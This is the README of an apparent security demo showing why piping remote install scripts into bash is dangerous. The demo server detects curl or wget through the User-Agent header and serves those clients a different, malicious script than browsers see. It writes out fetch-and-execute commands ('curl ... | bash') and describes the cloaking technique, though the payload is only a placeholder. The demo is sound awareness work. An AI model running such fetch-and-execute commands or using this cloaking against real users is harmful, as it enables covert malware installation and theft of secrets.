# pipe-to-bash
Piping install scripts you find on the internet to bash is a big security risk, yet many projects/vendors suggests this practice. This is a simple example showing why "curl/wget https://not-malicious.com/install.sh | bash" is bad and how you can get fooled even though you inspect the payload in the browser before executing it.

By using the `User-Agent` header we detect whether or not the call is coming from `curl` or `wget` commonly used when piping to bash, if so we supply the malicious payload. If the user is using any other `User-Agent` (such as Chrome, Firefox, etc) we will show a non-malicious install script.

## Malicious
### Request
```
curl -sSL http://localhost:3000/install.sh | bash
```

### Response
```
Execute all the things, install malware, exfiltrate secrets, etc
```

## Non-malicious

### Request
```
curl -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0" -sSL http://localhost:3000/install.sh | bash
```
### Response
```
Fake install script, shown if you are not using wget/curl
```